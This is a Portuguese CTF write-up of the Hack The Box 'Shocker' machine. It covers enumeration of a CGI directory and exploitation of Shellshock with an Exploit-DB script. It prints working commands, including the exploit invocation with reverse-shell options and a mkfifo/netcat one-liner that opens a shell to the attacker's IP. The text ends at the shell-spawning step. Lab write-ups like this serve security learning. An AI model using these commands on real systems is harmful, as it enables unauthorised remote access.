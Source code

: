 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy, CVE 2014-6278, CVE 2014-6271, sudo perl]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/1.jpg)

## Enumeration

Conforme venho automatizando o processo inicial de enumeracao e tbm adicionei algumas regras para gerenciar melhor meu tempo.

Inicio com o autorecon e em paralelo vou enumerando manualmente para ganhar tempo, visto que o autorecon dura um pouco mais de uma hora...

Eu terminei essa maquina em 70 minutos e o autorecon ainda nao tinha terminado..

Vamos laaa

`autorecon --single-target 10.10.10.56`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/2.jpg)

Em paralelo eu comecei fazer outros scan specificos e algumas pesquisas, depois de alguns minutos fui dar uma olhada no results do autorecon e ja encontrei algo interessante

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/3.jpg)

Como podes observar existe o dir `/cgi-bin/` no entanto eu ainda precisava encontrar um `file` com a extension `.cgi ou .sh ` para o exploit funcionar

entao usando o gobuster, rapidamente encontro o que eu precisava...

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/ -t 30 -x cgi -t 40`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/4.jpg)

## Reverse Shell

Um busca rapida no google vc encontra algumas tools paraa automatizar o processo de reverse shell

***reference*** https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/34900.py

`python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.24 lport=53 pages=/cgi-bin/user.sh`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/5.jpg)

Precisa obter uma shell mais funcional, isso eh facil e rapido de fazer...

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f`

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/6.jpg)

## Spawn shell

```
$ python -c 'import pty;pty.spawn("/bin/bash")';
/bin/sh: 1: python: not found
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
